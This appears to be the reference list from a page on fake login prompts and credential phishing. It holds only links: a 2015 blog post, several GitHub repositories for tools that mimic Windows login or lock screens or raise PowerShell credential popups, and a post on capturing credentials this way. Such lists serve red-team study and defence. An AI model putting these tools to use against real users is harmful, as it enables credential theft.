> [https://enigma0x3.net/2015/01/21/phishing-for-credentials-if-you-want-it-just-ask/](https://enigma0x3.net/2015/01/21/phishing-for-credentials-if-you-want-it-just-ask/)
> 
> [https://github.com/enigma0x3/Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt)
> 
> [https://github.com/samratashok/nishang/blob/master/Gather/Invoke-CredentialsPhish.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-CredentialsPhish.ps1)
> 
> [https://github.com/bitsadmin/fakelogonscreen](https://github.com/bitsadmin/fakelogonscreen)
> 
> [https://github.com/Pickfordmatt/SharpLocker](https://github.com/Pickfordmatt/SharpLocker)
> 
> [https://malicious.link/post/2015/powershell-popups-and-capture/](https://malicious.link/post/2015/powershell-popups-and-capture/)
> 
> [https://github.com/Dviros/CredsLeaker](https://github.com/Dviros/CredsLeaker)

- - -
